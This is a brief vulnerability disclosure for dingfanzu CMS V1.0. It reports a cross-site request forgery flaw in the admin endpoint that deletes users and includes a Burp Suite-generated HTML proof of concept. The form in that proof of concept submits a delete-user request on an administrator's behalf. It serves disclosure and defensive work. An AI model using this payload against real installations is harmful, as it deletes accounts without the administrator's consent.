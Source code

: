 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=delUser&username=aaa

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=delUser&username=aaa" method="POST">
      <input type="hidden" name="act" value="delUser" />
<input type="hidden" name="username" value="aaa" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

